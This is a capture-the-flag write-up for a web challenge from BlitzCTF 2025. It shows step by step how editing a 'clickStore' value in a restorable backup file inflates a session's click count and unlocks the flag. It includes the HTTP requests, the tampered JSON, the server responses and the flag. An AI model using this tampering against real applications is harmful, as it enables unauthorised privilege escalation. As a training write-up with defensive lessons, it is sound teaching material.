 
````markdown
# 🖱️ CTF Writeup: Click Counter - BlitzHack (BlitzCTF 2025)

**Category:** Web  
**Challenge Type:** Clicker-style web app  
**Flag Format:** `Blitz{...}`  
**Flag:** `Blitz{N3x7js_M1ddl3w4r3_Byyyyp4sssssss}`

---

## 🧩 Challenge Summary

We were given a clicker-style web application with features like:

- A click counter (with cooldown)  
- Ability to "Save" progress  
- Options to "Create Backup" and "Restore Backup"  
- A hidden "Buy Flag" button in the Settings panel  

The `/buy` page displayed:

- Flag price: **9999**  
- Current click count (loaded from session cookie)  
- A "Buy Now" button → Sends a POST to `/buy_item`

### 🎯 Objective

Buy the flag using clicks. But manually reaching 9999 clicks is impractical — we needed to **shortcut it via a vulnerability**.

---

## 🛠️ Step-by-Step Exploit

### 1️⃣ Saving Clicks – Session Cookie Observed

```http
POST /save
Content-Type: application/json
Cookie: session=eyJjbGlja3MiOjV9...

Payload:
{"clicks": 5}
````

✅ **Insight:** The session is a Base64-encoded JSON storing click count — this is a client-side session.

---

### 2️⃣ Trying to Buy the Flag

```http
POST /buy_item
Cookie: session=eyJjbGlja3MiOjV9...

Payload:
{"buy_item": "Flag"}
```

🔁 **Response:**

```json
{"message": "Insufficient Funds", "success": false}
```

---

### 3️⃣ Attempting Direct Backup Abuse

```http
POST /restore_backup
Content-Type: application/json

Payload:
{"clicks": 99999}
```

🚫 **Response:**

```json
{"error": "Invalid backup data."}
```

---

### 4️⃣ Create Legit Backup via UI

From the UI:
**Settings → Create Backup**
This downloaded `backup.json` (snipped):

```json
{
  "session_data": {
    "clicks_data": {
      "clickStore": 5,
      "currency": "tokens"
    }
  }
}
```

✅ **Insight:** `clickStore` is the internal variable used to restore the session click count.

---

### 5️⃣ Modify and Restore Backup

We modified `clickStore`:

```json
"clickStore": 99999
```

Then restored it via:
**Settings → Restore Backup**

➡️ New session cookie:

```js
Set-Cookie: session=eyJjbGlja3MiOjk5OTk5fQ...
```

---

### 6️⃣ Buy Flag Again (Now We Have Enough Clicks)

```http
POST /buy_item
Cookie: session=eyJjbGlja3MiOjk5OTk5fQ...

Payload:
{"buy_item":"Flag"}
```

✅ **Response:**

```json
{
  "message": "Welcome to the Admin Dashboard of BlitzHack\nYou are logged in as: admin\n\nFlag\nBlitz{N3x7js_M1ddl3w4r3_Byyyyp4sssssss}",
  "success": true
}
```

---

### 💡 Why This Worked

* `clickStore` is used to reconstruct the session cookie
* No validation was done after restoring the backup
* Backend logic likely:

```python
if clicks >= 9999:
    return admin_dashboard_and_flag()
```

---

## 🚨 Lessons Learned

* Never trust user-controlled backup data
* Don’t store sensitive data (like roles or click counts) in client-side cookies
* Signed cookies aren’t safe if internal values can be modified indirectly

---

## 🏁 Final Flag

```text
Blitz{N3x7js_M1ddl3w4r3_Byyyyp4sssssss}
```

```

---
